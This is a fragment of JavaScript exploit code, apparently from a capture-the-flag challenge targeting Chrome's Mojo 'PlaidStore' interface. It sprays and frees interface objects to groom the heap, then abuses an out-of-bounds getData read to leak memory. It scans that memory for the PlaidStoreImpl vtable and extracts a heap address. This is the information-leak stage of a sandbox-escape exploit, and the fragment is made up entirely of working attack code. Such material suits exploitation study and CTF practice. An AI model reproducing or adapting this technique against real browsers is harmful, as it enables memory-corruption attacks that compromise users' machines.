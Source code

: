 ```html
        let iface = new blink.mojom.PlaidStorePtr();
        let iface_req = mojo.makeRequest(iface);
        Mojo.bindInterface(blink.mojom.PlaidStore.name,
          iface_req.handle, "context", true);
        while (!iface.ptr.isBound());
        interfaces.push(iface);
      }

      for (var i = 0; i < NUM_IFACES; i += 2)  {
        interfaces[i].ptr.reset();
        while (interfaces[i].ptr.isBound());
        interfaces[i] = undefined;
      }

      var dummy_data = new Array(0x30);
      dummy_data.fill(0x42);
      plaid_store.storeData("test", dummy_data);
      
      let resolved = await plaid_store.getData("test", 0x300);
      var leak = resolved.data;
      
      var heap_addr = 0n;

      let buffer = new ArrayBuffer(8);
      let u8_arr = new Uint8Array(buffer);
      let bi_arr = new BigUint64Array(buffer);
     
      for (var i = 0; i < leak.length; i += 0x08) {
        var start_idx = i + dummy_data.length;
        let bytes = leak.slice(start_idx, start_idx+8);

        for (var j = 0; j < bytes.length; ++j)
          u8_arr[j] = bytes[j];

        let p_leak = bi_arr[0];
        let mask = 0xa68n;
        if (p_leak == (chrome_base + 0x9fb67a0n)) {
          /* Found the vtable of PlaidStoreImpl on heap */
          let render_frame_off = 8;
          let idx = render_frame_off + start_idx;
          let bytes = leak.slice(idx, idx+8);
        
          for (var j = 0; j < bytes.length; ++j)
            u8_arr[j] = bytes[j];
          
          heap_addr = bi_arr[0];
          break;
        }
      }

      for (var i = 0; i < defrag.length; ++i) {
        defrag[i].ptr.reset();
        while (defrag[i].ptr.isBound());
      }

      for (var i = 1; i < interfaces.length; i += 2) {
        interfaces[i].ptr.reset();
        while (interfaces[i].ptr.isBound());
      }

      return heap_addr;
    }

```